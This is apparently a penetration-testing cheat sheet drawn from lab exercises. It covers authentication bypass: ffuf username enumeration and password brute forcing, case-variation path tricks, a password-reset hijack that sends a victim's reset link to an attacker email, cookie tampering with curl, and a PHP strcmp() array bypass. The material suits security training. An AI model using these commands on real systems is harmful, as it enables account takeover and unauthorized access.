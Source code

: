 # Authentication Bypass

## Username Enumeration

* Try a random username that probably does not exist, and then try one that probably exists, is there a different error?

```
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
```

* We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
* The ffuf tool uses a list of commonly used usernames to check against for any matches.
* Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

* `-w` -> selects the file's location
* `-X` -> argument specifies the request method
* `-d` -> the data that we are going to send
* `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
* `-H` -> for adding additional headers to the request
* `-u` -> specifies the URL we are making the request to
* `-mr` -> is the text on the page we are looking for to validate we've found a valid username

## Password Brute force attack

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

* Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
* `W1` -> for our valid list of usernames
* `W2` -> for the list of passwords we are going to try
* `-w` -> the multiple word lists are also specified with this flag
* `-fc` -> this argument check for an HTTP status code other than a 200

## Authentication Bypass Logic Flaw

* If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
* Try:

```
/adMin
/aDmIn
```

### Finding password reset forms

* If there is an option always make an account. There could be pages you have access to that you otherwise would not.
* Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
* Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

* `-H` -> to add an additional header to the request. In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
* Can find this out in burp, or set something ourselves
* The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
* We can control where the password reset email gets delivered.

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

* Now re-running the curl command we can alter where the reset link is sent

```
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

## Cookie Tampering

* Decode the stored cookies and see if you can manipulate them before making curl requests with the new tampered cookies.
* First, we'll start just by requesting the target page:

```
curl http://MACHINE_IP/cookie-test
```

* We can see we are returned a message of: Not Logged In
* Now we'll send another request with the logged\_in cookie set to true and the admin cookie set to false:

```
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```

* We are given the message: Logged In As A User
* Finally, we'll send one last request setting both the logged\_in and admin cookie to true:

```
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```

* This returns the result: Logged In As An Admin

### strcmp() PHP bypass

* If you are able to get access to some php course code that uses `strcmp()` for checking usernames and passwords, bypassing it can be trivial&#x20;

<figure><img src="../.gitbook/assets/image (3) (3).png" alt=""><figcaption><p>Example of php source code using strcmp()</p></figcaption></figure>

* By capturing the authentication in burp you can turn the username and or password field into an array, bypassing the authentication, in this instance we must do it for both the username and password fields.

<figure><img src="../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

* When submitting a normal request, we are informed that `'Wrong Username or Password'`
* However, once we change our parameters into an array value with the fields === 0, we login&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

* `username[]=0&password[]=0`

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

